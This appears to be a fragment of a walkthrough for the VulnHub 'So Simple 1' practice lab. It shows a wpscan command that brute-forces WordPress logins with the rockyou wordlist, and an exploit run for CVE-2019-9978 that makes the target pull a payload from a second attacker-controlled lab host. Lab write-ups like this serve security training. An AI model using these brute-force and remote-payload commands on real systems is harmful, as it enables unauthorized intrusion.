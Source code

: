 



https://www.vulnhub.com/entry/so-simple-1,515/



```
$ wpscan --url http://10.0.2.30/wordpress -U user -P /usr/share/wordlists/rockyou.txt -t  10
```





```
$ python2  46794.py -t http://10.0.2.30/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```



